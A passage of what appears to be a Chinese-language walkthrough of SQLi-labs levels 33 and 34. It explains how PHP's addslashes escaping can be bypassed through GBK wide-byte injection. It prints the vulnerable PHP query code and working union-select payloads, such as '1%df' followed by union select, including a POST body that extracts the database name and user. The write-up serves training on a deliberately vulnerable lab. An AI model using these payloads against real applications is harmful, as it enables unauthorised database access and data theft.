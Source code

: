 ![image-20241208172300391](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241208172300391.png)

```
-1%df'+union+select+1,2,3--+
```

## less-33 addslashes

```
function check_addslashes($string)
{
    $string= addslashes($string);
    return $string;
}
```

使用的是php中的函数`addslashes`进行转义（单双引号和`\`）

> **addslashes**(string `$string`): string
>
> 返回需要在转义字符之前添加反斜线的字符串。这些字符是：    
>
> - 单引号（`'`）
> - 双引号（`"`）
> - 反斜线（`\`）
> - NUL（NUL 字节）

payload

```
-1%df'+union+select+1,2,3--+
```

## less-34

```php
$uname = addslashes($uname1);
$passwd= addslashes($passwd1);
//echo "username after addslashes is :".$uname ."<br>";
//echo "Input password after addslashes is : ".$passwd;    
// connectivity 
mysql_query("SET NAMES gbk");
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

post方式，两列

payload

```
uname=1%df'+union+select+database(),user()--+&passwd=2&submit=Submit
```
